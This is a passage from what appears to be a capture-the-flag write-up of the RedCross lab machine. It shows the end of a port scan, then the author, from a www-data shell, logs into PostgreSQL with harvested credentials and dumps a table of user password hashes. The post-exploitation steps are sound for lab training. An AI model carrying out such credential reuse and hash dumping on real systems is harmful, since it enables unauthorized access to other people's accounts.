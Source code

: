 ```bash
| 3jUCDTAiittw5BM0Xxea23I9lcMsgItjgMhKaI7zdIg5QzXjryBkKciSwbVNtNJg
| 5JfILg0AHS9rC1bHTlvOpOKk303Z+2f6ajZo8MTMH+MUGckOGc7An8j3WTdIY+Ot
| RknTcbORCN7Ntgwf9Wd9ijXDEY8Cv0XxYni7Osz4jfhQqiL3SC1kXeFEI8rCaA+B
| NYJybx4k2un7+YVGWN+D32F3N5qY3Sd84jFjQwt90csafWMMp9w=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
Service Info: Host: RedCross; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Three new open ports. Im not going to bother checking FTP just yet since I already have a shell but I may come back to it if I get stuck.

#### Postgresql

```bash
www-data@redcross:/opt/iptctl$ psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
```

The creds work to connect.


```bash
unix-> \l
                                  List of databases
   Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-----------+----------+----------+-------------+-------------+-----------------------
 postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 redcross  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =Tc/postgres         +
           |          |          |             |             | postgres=CTc/postgres+
           |          |          |             |             | www=CTc/postgres
 template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 unix      | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
(5 rows)
```

```bash
unix=> \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | group_id     | sequence | postgres
 public | group_table  | table    | postgres
 public | passwd_table | table    | postgres
 public | shadow_table | table    | postgres
 public | user_id      | sequence | postgres
 public | usergroups   | table    | postgres
(6 rows)
```

```bash
unix=> SELECT * FROM passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell   
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 test     | $1$yEf8M2nG$27tmQ22rr8M7oHMntWvRq0 | 2023 | 1001 |       | /var/jail/home | /bin/bash
```
